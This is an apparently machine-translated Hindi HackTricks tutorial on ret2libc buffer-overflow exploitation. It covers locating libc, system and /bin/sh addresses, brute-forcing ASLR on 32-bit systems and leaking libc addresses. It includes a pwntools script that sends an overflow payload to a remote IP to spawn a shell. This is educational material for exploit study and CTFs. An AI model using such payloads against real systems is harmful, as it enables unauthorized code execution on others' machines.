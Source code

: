 # Ret2lib

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें द्वारा PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## **मौलिक जानकारी**

**Ret2Libc** का सार है किसी भी वंशावली प्रोग्राम के निष्क्रिय क्षेत्र को एक साझा पुस्तकालय के एक फ़ंक्शन (जैसे **system**, **execve**, **strcpy**) में पुनर्निर्देशित करना, ठीक विकल्पित शेलकोड को स्टैक पर नहीं चलाना। हमलावर एक पेलोड बनाता है जो स्टैक पर वापसी पता संशोधित करता है ताकि इच्छित पुस्तकालय फ़ंक्शन पर पहुँचे, साथ ही कॉलिंग कन्वेंशन के अनुसार आवश्यक तरीके से सेट किए गए किसी भी आवश्यक तर्कों के लिए भी व्यवस्थित करता है।

### **उदाहरण कदम (सरलीकृत)**

* कॉल करने के लिए फ़ंक्शन का पता प्राप्त करें (जैसे सिस्टम) और कॉमांड को कॉल करने के लिए (जैसे /bin/sh)
* पहले तर्क को पास करने के लिए एक ROP श्रृंखला उत्पन्न करें जो कमांड स्ट्रिंग पर पहुँचने वाले पहले तर्क को पास करने के लिए और फ़ंक्शन पर निर्देशन विकल्प को पहुँचाने के लिए है।

## पतों का पता लगाना

* मान लेना कि `libc` जो वर्तमान मशीन में उपयोग किया जाएगा, उसे आप मेमोरी में कहाँ लोड किया जाएगा इसे आप निम्नलिखित के साथ खोज सकते हैं:
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

यदि आप जांचना चाहते हैं कि ASLR libc के पते को बदल रहा है तो आप यह कर सकते हैं:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* जानते हुए इस्तेमाल हो रही libc के साथ, `system` फ़ंक्शन के लिए ऑफसेट ढूंढना भी संभव है:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* जानते हुए कि कौन सी libc का उपयोग किया गया है, इससे `/bin/sh` फ़ंक्शन के लिए ऑफ़सेट ढूंढना भी संभव है:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### जीडीबी-पीडा / जीईएफ का उपयोग

लिबसी का पता लगाने के बाद, **system** फ़ंक्शन, **exit** फ़ंक्शन और स्ट्रिंग **`/bin/sh`** का पता लगाने के लिए Peda या GEF का उपयोग भी संभव है:
```
p system
p exit
find "/bin/sh"
```
### उपयोग करना /proc/\<PID>/maps

यदि प्रक्रिया हर बार जब आप इसके साथ बात करते हैं **बच्चे** बना रही है (नेटवर्क सर्वर) तो कोशिश करें कि फ़ाइल को **पढ़ें** (संभावना है कि आपको रूट होने की आवश्यकता होगी)।

यहाँ आप **सटीक रूप से देख सकते हैं कि प्रक्रिया के अंदर libc कहाँ लोड हो रहा है** और **प्रत्येक प्रक्रिया के बच्चों के लिए कहाँ लोड होने जा रहा है**।

![](<../../../../.gitbook/assets/image (95).png>)

इस मामले में यह **0xb75dc000** में लोड हो रहा है (यह libc का आधार पता होगा)

## अज्ञात libc

संभावना है कि आपको पता नहीं हो कि बाइनरी कौन सा libc लोड कर रहा है (क्योंकि यह एक सर्वर में स्थित हो सकता है जिसमें आपका कोई पहुंच नहीं है)। उस मामले में आप विकल्प का दुरुपयोग कर सकते हैं ताकि कुछ पते **लीक करें और पता लगाएं कि कौन सा libc** पुस्तकालय उपयोग किया जा रहा है:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

और आप इसके लिए एक pwntools टेम्पलेट पा सकते हैं:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## ASLR को छलना 32 बिट में

ये ब्रूट-फोर्सिंग हमले **केवल 32बिट सिस्टमों के लिए** उपयोगी हैं।

* यदि एक्सप्लॉइट स्थानीय है, तो आप libc का आधार पता लगाने के लिए ब्रूट-फोर्स कर सकते हैं (32बिट सिस्टमों के लिए उपयोगी):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* यदि आप एक रिमोट सर्वर पर हमला कर रहे हैं, तो आप `libc` फ़ंक्शन `usleep` का पता लगाने के लिए **10 (उदाहरण के लिए) के तर्क के साथ पता लगाने की कोशिश कर सकते हैं। यदि किसी समय सर्वर 10 सेकंड अतिरिक्त समय लेता है तो आपने इस फ़ंक्शन का पता लगा लिया है।

## एक गैजेट

{% content-ref url="../../one-gadget.md" %}
[one-gadget.md](../../one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib कोड उदाहरण

इस उदाहरण में ASLR ब्रूट-फ़ोर्स कोड में एकीकृत किया गया है और वंशावली बाइनरी एक रिमोट सर्वर पर स्थित है:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib कोड उदाहरण

निम्नलिखित से उदाहरण देखें:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (या puts)

इससे **प्रक्रिया से जानकारी लीक करने** की अनुमति होती है जिसे किसी विशेष डेटा को एक तरह के तर्क के रूप में रखकर `printf`/`puts` को कॉल करने से प्राप्त किया जा सकता है।

## Ret2printf

यह मुख्य रूप से एक **Ret2lib का दुरुपयोग करना है ताकि इसे `printf` फॉर्मेट स्ट्रिंग जोखिम बनाने में बदला जा सके** जिसे `ret2lib` का उपयोग करके इसे उत्पीड़ित करने के लिए मानों के साथ `printf` को कॉल करने के लिए उपयोग किया जाता है (यह बेकार लग सकता है लेकिन संभव है):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## अन्य उदाहरण और संदर्भ

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, एक फ़ंक्शन के पते में एक लीक दिया गया है, एक गैजेट का उपयोग करते हुए
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 बिट, ASLR सक्षम है लेकिन कोई PIE नहीं, पहला कदम एक ओवरफ्लो को भरना है जब तक कैनरी का 0x00 बाइट न हो जाए और फिर puts को कॉल करना है और इसे लीक करना है। कैनरी के साथ एक ROP गैजेट बनाया जाता है जो puts को कॉल करने के लिए GOT से puts का पता लीक करने के लिए और एक ROP गैजेट को कॉल करने के लिए `system('/bin/sh')`
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 बिट, ASLR सक्षम, कोई कैनरी नहीं, मुख्य स्थान पर स्टैक ओवरफ्लो, एक बच्चे कार्य से। puts को कॉल करने के लिए ROP गैजेट जिससे GOT से puts का पता लीक हो और फिर एक गैजेट को कॉल करने के लिए।
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64 बिट, कोई पाई, कोई कैनरी, कोई रेलरो, एनएक्स। लीक करने के लिए लिखने का उपयोग करता है (libc) और एक गैजेट को कॉल करता है।
